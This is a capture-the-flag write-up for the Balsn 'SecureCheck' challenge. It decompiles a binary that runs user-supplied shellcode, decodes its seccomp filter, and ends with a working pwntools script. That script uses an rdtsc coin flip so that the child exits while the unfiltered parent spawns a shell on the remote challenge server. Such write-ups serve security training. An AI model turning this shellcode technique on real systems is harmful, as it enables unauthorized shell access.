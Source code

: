 # SecureCheck

So what we have in this ctf task - just an application which called `nosyscal` and nothing more... So let's try to open it with radare/cutter to see what's inside.

## Overview

![overview](overview.png)

Just an elf64 binary with two functions which are relevant `main` and `instal_syscall_filter`. Let's see what's inside `main` with decompiler's help :

## main
~~~~
undefined8 main(void)  
{  
	int32_t iVar1;  
	undefined8 uVar2;  
	int64_t in_FS_OFFSET;  
	int32_t iStack36;  
	code *pcStack32;  
	code *UNRECOVERED_JUMPTABLE;  
	int64_t iStack16;  
	  
	iStack16 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	pcStack32 = (code *)sym.imp.mmap(0, 0x1000, 7, 0x22, 0xffffffff, 0);  
	sym.imp.read(0, pcStack32, 0x1000);  
	UNRECOVERED_JUMPTABLE = pcStack32;  
	iVar1 = sym.imp.fork();  
	if (iVar1 == 0) {  
		sym.install_syscall_filter();  
	} else {  
		sym.imp.wait(&iStack36);  
		if (iStack36 != 0) {
			uVar2 = 0;  
			if (iStack16 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
					uVar2 = sym.imp.__stack_chk_fail();  
			}  
			return uVar2;
		}
	}
	// WARNING: Could not recover jumptable at 0x00000a20. Too many branches  
	// WARNING: Treating indirect jump as call  
	uVar2 = (*UNRECOVERED_JUMPTABLE)(0, 0, UNRECOVERED_JUMPTABLE, 0, 0, 0);  
	return uVar2;  
}
~~~~
From first view seems like `shellcode` task which gets the input, put it in the mmap and runs in both processes if child successfully exit.
Also noticed that all regs are xored also in the `main`.
~~~~
0x000009f6      xor     rbx, rbx
0x000009f9      xor     rcx, rcx
0x000009fc      xor     rdi, rdi
0x000009ff      xor     rsi, rsi
0x00000a02      xor     rsp, rsp
0x00000a05      xor     rbp, rbp
0x00000a08      xor     r8, r8
0x00000a0b      xor     r9, r9
0x00000a0e      xor     r10, r10
0x00000a11      xor     r11, r11
0x00000a14      xor     r12, r12
0x00000a17      xor     r13, r13
0x00000a1a      xor     r14, r14
0x00000a1d      xor     r15, r15
~~~~

But what's happening inside `install_syscall_filter`?

## install_syscall_filter
~~~~
undefined8 sym.install_syscall_filter(void)  
{  
	int64_t iVar1;  
	int32_t iVar2;  
	undefined8 uVar3;  
	int64_t in_FS_OFFSET;  
	uint32_t v3;  
	int32_t var_58h;  
	int32_t var_50h;  
	int32_t var_48h;  
	int32_t var_40h;  
	int32_t var_38h;  
	int32_t var_30h;  
	int32_t var_28h;  
	int32_t var_20h;  
	int32_t var_18h;  
	int32_t var_10h;  
	int32_t canary;  
	  
	iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	v3._0_2_ = 9;  
	iVar2 = sym.imp.prctl(0x26, 1, 0, 0, 0);  
	if (iVar2 == 0) {  
		iVar2 = sym.imp.prctl(0x16, 2, &v3);  
	if (iVar2 == 0) {  
		uVar3 = 0;  
	goto code_r0x0000096b;  
	}  
		sym.imp.perror(0xaf8);  
	} else {  
		sym.imp.perror(0xae4);  
	}  
	uVar3 = 1;  
	code_r0x0000096b:  
	if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
		uVar3 = sym.imp.__stack_chk_fail();  
	}  
	return uVar3;  
}
~~~~
`prctl` calls with some variables and all `vars_*` on stack are not relevant from radare's opinion, heh.  Those  identifiers (0x16/PR_SET_SECCOMP, 0x26/PR_SET_NO_NEW_PRIVS) points out on some `seccomp` application filtering, interesting. Need to find out then what's coming as `v3`, there is only size of `v3` is pointed out but where is the data?

![install_syscall_filter variables](stack.png)

Seems like radare2 not smart enough about variables in decompile section :) What is that? Oh wait, seems like `sock_filter` structures.
~~~~
{0x20, 0, 0, 4}
{0x15, 1, 0, 0xc000003e}
{0x6, 0, 0, 0}
{0x20, 0, 0, 0}
{0x15, 0, 1, 0x3c}
{0x6, 0, 0, 0x7fff0000}
{0x15, 0, 1, 0xe7}
{0x6, 0, 0, 0x7fff0000}
{0x6, 0, 0, 0}
~~~~
Let's disassemble with `bpf_dbg` and see what the rules are on:
~~~~
l0: ld [4] 
l1: jeq #0xc000003e, l3, l2 
l2: ret #0 
l3: ld [0] 
l4: jeq #0x3c, l5, l6
l5: ret #0x7fff0000 
l6: jeq #0xe7, l7, l8 
l7: ret #0x7fff0000 
l8: ret #0
~~~~
Hm, interesting,
 - 0x3e/62 - kill
 - 0x3c/60 - exit
 - 0xe7/231 - exit group

So we're able to use only exit/exit group calls, otherwise we will be killed.
What should we do in this case?

## Solution

After some discussion we decide to `exit` from child and run `shell` on parent with shellcode because parent will not be affected by child's limitations with `prctl`. But how we do know where we are in child or in parent? Let's coin flip and decide from it, of course it will not happen from first attempt but it should after some time. `rdtsc` will do the coin flip magic... Let's code with pwntools :
~~~~
#!/usr/bin/env python3  
from pwn import *  
  
context.arch = 'amd64'  
shellsource = \  
		' rdtsc\n' + \  
		' test rax, 0x100\n' + \  
		' lea rsp, [rest + rip]\n' + \  
		' jz exit0\n' + \  
		shellcraft.amd64.linux.sh() + \  
		'exit0:\n' + \  
		shellcraft.amd64.linux.exit(0) + \  
		' .skip 512\n' + \  
		'rest:\n'  
  
print(shellsource)  
shellcode = asm(shellsource)  
p = remote('securecheck.balsnctf.com', 54321)  
p.send(shellcode)  
p.interactive()
~~~~
After some attempts as expected we got the flag, hurray!

*Balsn{Sam3_Cod3_Same_Cont3xt_Diff3r3nt_World}*

